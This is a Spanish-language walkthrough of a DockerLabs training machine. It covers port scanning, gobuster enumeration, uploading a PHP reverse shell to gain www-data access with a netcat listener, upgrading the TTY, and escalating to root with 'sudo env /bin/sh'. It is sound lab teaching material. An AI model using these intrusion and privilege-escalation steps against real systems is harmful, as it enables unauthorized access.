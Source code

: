 ```yaml
---
title: Upload - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/d1ec25fb-346f-46b3-bc31-5e03ce16cc27)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/04499ee1-0ea5-4ead-ab90-2bbf6b71f938)

# Exploración Web
Al analizar el puerto `80`, encontramos una página de subida de archivos.

![image](https://github.com/user-attachments/assets/e889ff38-5f0c-4390-9507-ba3a3804866d)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/7c400ad1-d895-4407-9e79-33f7b4332f76)

Identificamos la ruta `/uploads`, donde se almacenarán los archivos que subamos. Aprovechamos esta función para cargar una reverse shell en PHP.

# Reverse Shell

Creamos un archivo `shell.php` y cargamos una reverse shell usando la herramienta [Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) para crear una shell en PHP. La reverse shell se encuentra disponible en:

![image](https://github.com/user-attachments/assets/44a497dd-9578-4bb6-a2f8-bfc388de8db7)

Una vez subido el archivo, accedemos a la ruta `/uploads` y ejecutamos la shell.

No salta un mensaje de que se ha subido el archivo accedmos a la ruta /uploads y lo ejecutamos 

![image](https://github.com/user-attachments/assets/168111df-59fd-4757-9416-3b8aa36be241)

Simultáneamente, iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:
```bash 
nc -lvnp 4444
```
Al acceder a la reverse shell desde el navegador, logramos obtener acceso como `www-data`.

![image](https://github.com/user-attachments/assets/ba14667e-c769-4e9c-9e3c-8ba8c46fbf3d)

Logramos acceso como` www-data`.

![image](https://github.com/user-attachments/assets/bd2e0d5a-7d78-4bb0-bd2e-a394ef9d8dba)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de privilegios

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `env` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/9d9a1dee-9684-4afe-8d51-b0f08de7a6d2)

Ejecutamos el siguiente comando para elevar privilegios:
```bash
sudo /usr/bin/env /bin/sh
```
Ya somos root.

![image](https://github.com/user-attachments/assets/d5651dbb-e173-4129-8b03-f72d83dee169)


